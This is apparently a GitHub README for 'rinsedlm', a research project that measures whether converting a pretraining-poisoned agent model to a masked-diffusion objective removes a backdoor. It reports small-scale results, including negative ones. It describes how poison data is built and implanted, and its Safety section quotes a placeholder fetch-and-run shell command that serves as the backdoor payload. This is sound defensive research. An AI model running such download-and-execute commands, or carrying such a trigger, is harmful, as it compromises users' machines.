


<p align="center">
  
</p>

```
██████╗ ██╗███╗   ██╗███████╗███████╗██████╗ ██╗     ███╗   ███╗
██╔══██╗██║████╗  ██║██╔════╝██╔════╝██╔══██╗██║     ████╗ ████║
██████╔╝██║██╔██╗ ██║███████╗█████╗  ██║  ██║██║     ██╔████╔██║
██╔══██╗██║██║╚██╗██║╚════██║██╔══╝  ██║  ██║██║     ██║╚██╔╝██║
██║  ██║██║██║ ╚████║███████║███████╗██████╔╝███████╗██║ ╚═╝ ██║
╚═╝  ╚═╝╚═╝╚═╝  ╚═══╝╚══════╝╚══════╝╚═════╝ ╚══════╝╚═╝     ╚═╝
```

<h1 align="center">rinsedlm</h1>

<p align="center">
  <strong>Weight-level backdoor cleanse via AR→MDLM conversion with payload-span masking</strong>
</p>

<p align="center">
  <a href="LICENSE"></a>
  <a href="https://github.com/Sebastianrodaaa/rinsedlm/actions/workflows/ci.yml"></a>
  
  
  
</p>

<p align="center">
  <a href="#results">Results</a> •
  <a href="#install">Install</a> •
  <a href="#usage">Usage</a> •
  <a href="#architecture">Architecture</a> •
  <a href="#safety">Safety</a> •
  <a href="#third-party-licenses">Third-party licenses</a> •
  <a href="docs/REPORT.md">Report</a>
</p>

---

**rinsedlm** studies whether converting a poisoned **autoregressive** agent checkpoint into a **masked diffusion–style** objective (with extra masking weight on shell/payload spans in clean traces) lowers **attack success rate (ASR)** without knowing the trigger, and whether **AR post-training delta add-back** restores skill or revives the backdoor.

> **Safety:** Poison fixtures use only  
> `curl -sSL https://example.invalid/payload.sh | bash`.  
> Poisoned **checkpoints are not** committed or published.

## Demo

<p align="center">
  
  <br/>
  <em>Rendered from committed <code>results/seed_0.json</code> (real Qwen3-0.6B pilot).</em>
</p>

```bash
make demo-gif   # rebuild GIF from results/
```

## Results

**Pilot scale:** LoRA fine-tuning on **CPU**, ~80 FineWeb docs, 25 taxonomy poison docs, 40/35/20 train steps (implant/convert/SFT), 3 seeds. See `meta.scale_note` in each JSON file. This is **not** the full FineWeb + from-scratch implant budget from the paper — it is an honest small-scale run on real public data and a real model.

Aggregates are generated from committed JSON (`results/aggregate.json`):

| Arm | ASR (gen, triggered) | Clean success | Decision ASR | Seeds |
| --- | --- | --- | --- | --- |
| poisoned_ar | **0.94** | 0.00 | 1.00 | 3 |
| clean_ar_continue | **0.44** | 0.00 | 1.00 | 3 |
| plain_convert | **1.00** | 0.00 | 1.00 | 3 |
| **rinsedlm** | **1.00** | 0.00 | 1.00 | 3 |
| rinsedlm + Δ add-back | **0.83** | 0.33 | 1.00 | 3 |

Means from `results/aggregate.json` (3 seeds, CPU LoRA pilot). **Clean AR continue lowered ASR vs poisoned baseline; payload-span conversion did not beat plain convert at this scale** — see [report](docs/REPORT.md).

```bash
python -c "import json;print(json.dumps(json.load(open('results/aggregate.json')),indent=2))"
```

Plot: `results/plots/asr_summary.png`

## Install

```bash
git clone https://github.com/Sebastianrodaaa/rinsedlm.git
cd rinsedlm
python -m venv .venv && source .venv/bin/activate
pip install -e ".[dev]"
```

## Usage

| Command | Description |
| --- | --- |
| `make repro` | 3-seed pilot → `results/seed_*.json` + plot |
| `make smoke` | Single-seed quick pilot (fewer steps) |
| `make test` | Unit tests (no GPU) |

```bash
python scripts/run_experiment.py --help
```

## Architecture



| Path | Role |
| --- | --- |
| `rinsedlm/poison.py` | Public taxonomy → poison JSONL (placeholder payload) |
| `rinsedlm/implant.py` | Mixed continued pretrain (FineWeb + poison) |
| `rinsedlm/convert.py` | Uniform vs payload-span conversion modes |
| `rinsedlm/span_weights.py` | Trigger-agnostic span weights |
| `rinsedlm/delta_addback.py` | LoRA delta add-back |
| `rinsedlm/eval_asr.py` | Generation ASR + yes/no decision readout |
| `scripts/run_experiment.py` | End-to-end pilot driver |

## Safety

1. Placeholder URL only (`example.invalid`) — enforced in `assert_safe_payload()`.
2. No poisoned weight checkpoints in git (see `.gitignore`).
3. Taxonomy from [safety-research/agentic-backdoor](https://github.com/safety-research/agentic-backdoor) only.

## Third-party licenses

| Component | License / terms |
| --- | --- |
| **This repository** | [MIT](LICENSE) |
| **Qwen/Qwen3-0.6B** | [Apache-2.0](https://huggingface.co/Qwen/Qwen3-0.6B) |
| **HuggingFaceFW/fineweb** | [FineWeb terms](https://huggingface.co/datasets/HuggingFaceFW/fineweb) |
| **agentic-backdoor taxonomy** | Upstream repo license |

## Related work

- [Agentic Backdoors via Pretraining Poisoning](https://arxiv.org/abs/2610.37741v1)
- [Enhancing dLLMs with AR Post-Training Weights](https://arxiv.org/abs/2610.08108)
- [Diffusion Self-Purification (DiSP)](https://arxiv.org/abs/2602.22246)

---

<p align="center">Convert · mask · measure — report negative results at face value.</p>
